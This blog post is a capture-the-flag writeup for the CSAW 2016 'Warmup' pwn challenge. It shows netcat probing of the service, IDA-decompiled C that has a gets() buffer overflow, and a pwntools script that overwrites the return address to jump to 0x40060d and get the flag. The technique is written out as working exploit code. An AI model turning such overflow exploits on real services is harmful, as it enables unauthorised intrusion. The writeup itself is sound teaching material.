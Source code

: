 ```yaml
---
title: '[CSAW 2016] PWN: Warmup Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:01:55+00:00
url: /csaw-2016-pwn-warmup-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - PWN
  - Writeups

---
```

#### **Description:**

> _So you want to be a pwn-er huh? Well let&#8217;s throw you an easy one 😉_  
> _nc pwn.chal.csaw.io 8000_
> 
> _<a class="chal-file" href="https://ctf.csaw.io/static/uploads/8ef117ec4c05f79aebdf043f3d003c2b/warmup" target="_blank">warmup</a>_

Let&#8217;s connect to the server and play with it a little bit:

```sh
[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beet

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beetttttttttttttttttttttt

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


The program says &#8220;WOW:&#8221; followed by a memory address. This address is probably the address of the function we need to execute. Let&#8217;s open IDA to view the code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	  char s; // [sp+0h] [bp-80h]@1
	  char v5; // [sp+40h] [bp-40h]@1

	  write(1, "-Warm Up-\n", 0xAuLL);
	  write(1, "WOW:", 4uLL);
	  sprintf(&s, "%p\n", 4195853LL);
	  write(1, &s, 9uLL);
	  write(1, (const void *)'@\aU', 1uLL);
	  return gets(&v5, '&gt;');
}b
```


This is a classic BOF (Buffer Overflow) case. The main method uses the `gets()` function to receive the given input and returns it. `gets()` is storing 64 characters (40h). Because there is no validation of the given string we need to supply an input that will exploit the program and make it jump to the wanted address: 0x40060d.

A short python script will do the job:

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
print r.recv()
r.sendline("A"*72 + "\x0D\x06\x40\x00\x00\x00\x00\x00")
print r.recvline()
```


And we got the flag: _FLAG{LET\_US\_BEGIN\_CSAW\_2016}_

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>